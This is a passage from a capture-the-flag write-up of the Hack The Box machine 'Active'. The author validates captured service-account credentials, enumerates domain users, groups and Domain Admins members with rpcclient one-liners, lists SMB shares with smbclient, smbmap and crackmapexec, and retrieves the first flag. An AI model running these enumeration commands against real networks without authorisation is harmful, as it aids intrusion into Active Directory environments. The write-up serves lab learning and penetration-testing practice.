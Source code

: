 Now that I have found credentials for an account I must validate it with `crackmapexec` and then I can continue the **Reconnaissance** phase. With `rpcclient` I can now connect and leak information of the domain groups and users, to speed up the task I run the enumeration commands with an oneliner and dig into those resources that seem more juicy like **Domain Admins group users** or **Administrator account metadata** but I can't find anything interesting at the moment.

```bash
rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "enumdomusers"
rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "enumdomgroups"
rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "querygroupmem 0x200"
rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "querygroupmem 0x200" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]'

rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "querygroupmem 0x200" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | while read rid; do rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "queryuser $rid"; done
rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "querygroupmem 0x200" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | while read rid; do rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "queryuser $rid" | grep "User Name" | awk 'NF{print $NF}'; done
echo; rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "querygroupmem 0x200" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | while read rid; do echo "$rid: $(rpcclient -U "svc_tgs%G...8" 10.10.10.100 -c "queryuser $rid" | grep "User Name" | awk 'NF{print $NF}')"; done

smbclient -L 10.10.10.100 -U "svc_tgs%G...8"
smbmap -H 10.10.10.100 -u 'svc_tgs' -p 'G...8' --no-banner
crackmapexec smb 10.10.10.100 -u 'svc_tgs' -p 'G...8' --shares
```

<br />
<img src="{{ site.img_path }}/active_writeup/Active_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I list the shares again with `smbmap`, but this time I focus on **Users** and I have the ability to list the personal directories of all the accounts of the domain which allows me to find the first flag in the **Desktop** directory of the **SVC_TGS** account. With the necessary `smbmap` parameters I succeed in downloading on my machine the first flag and accessing its contents.
